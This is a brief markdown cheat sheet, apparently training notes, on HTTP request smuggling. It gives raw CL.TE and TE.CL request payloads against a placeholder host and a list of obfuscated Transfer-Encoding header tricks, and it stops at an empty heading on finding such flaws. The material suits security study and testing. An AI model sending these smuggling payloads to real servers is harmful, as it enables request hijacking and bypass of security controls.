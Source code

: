 ## **CL.TE vulnerabilities**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 21
Transfer-Encoding: chunked

0

SMUGGLED-REQUEST
```

## **TE.CL vulnerabilities**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

10
SMUGGLED-REQUEST
0


```

## **TE.TE vulnerabilities**

Obfuscate the Transfer-Encoding header

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## **Finding HTTP request smuggling vulnerabilities**
